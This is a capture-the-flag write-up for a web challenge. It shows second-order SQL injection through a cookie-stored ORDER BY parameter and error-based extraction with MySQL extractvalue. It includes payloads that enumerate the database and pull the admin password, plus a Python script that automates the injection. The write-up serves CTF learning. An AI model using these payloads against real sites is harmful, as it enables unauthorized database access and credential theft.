


# Shitter writeup
Writeup by [@melihkaanyldz](https://www.twitter.com/melihkaanyldz) , thanks to [@ATeamJKR](https://www.twitter.com/ATeamJKR) for his helps

After registering and logging in, server was setting our cookie to be 

```
session=eyJvcmRlciI6eyIgYiI6ImNHOXpkRjlqY21WaGRHbHZibDkwYVcxbElHRnpZdz09In0sInVzZXIiOiJhIn0.XfUEOg.Qvi5O5I10xdtZwQ5YwXcxzWeGyY

 {
    "order": {
        " b": "cG9zdF9jcmVhdGlvbl90aW1lIGFzYw=="  #post_creation_time asc
    },
    "user": "testreg"
}
```

We could update the order part of our cookie with sending "order" param to /settings endpoint

```
session=eyJvcmRlciI6InBvc3RfY3JlYXRpb25fdGltZSBBU0MiLCJ1c2VyIjoibW9ycGgzIn0.XfeMXw.6rcWVQQ_DMlau7rEoiDPfhQKlg4

{
  "order": "post_creation_time ASC",
  "user": "morph3"
}
```
After some more enumeration and error messages, I realized that the value that we set for "order" was put in a sql query

`SELECT * FROM posts ORDER BY $input LIMIT 5;`

That means we could simply update the query(our cookie) in settings tab and trigger the sql injection from another endpoint.

At that point I found an unintended path. Server was giving detailed error message n /profile/1 endpoint with our modified cookie.
So that meant I could fetch data and read the output from the error message.

Basically I could handle the query like that
`1,extractvalue(0x0a,concat(0x0a,(YOUR_SQL_QUERY_HERE)))#`





Server didn't like queries that return more than 1 row, so fetched everything one by one
```sql
--For databases
1,extractvalue(0x0a,concat(0x0a,(SELECT schema_name  FROM information_schema.schemata limit 0,1)))--

--Tables for the current database
order=1,extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database ()limit 0,1)))--

--Columns for a table
1,extractvalue(0x0a,concat(0x0a,(SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' limit 0,1)))--

--Flag
1,extractvalue(0x0a,concat(0x0a,(select password from users where name='admin' limit 0,1)))--
```

In the ctf I didn't write a script because I wanted to finish it as quick as possible.



Flag: `TMHC{Bl1nDSQlS3c0ndorderINJecti0n}`


Here is the automated script
```python
import requests
s = requests.Session()

url = "your_url_here"
data = {
    "name":"morph3",
    "password":"morph3"
}
#r = s.post(url+"register",data=data)
r = s.post(url+"login",data=data)
q = "select password from users where name = 'admin' limit 0,1"
while q != "q":
    data = {
         "order" : "1,extractvalue(0x0a,concat(0x0a,({})))#".format(q)
    }
    r = s.post(url+"settings",data=data)
    r = s.get(url+"profile/1")
    print data
    q = raw_input("~#:")
```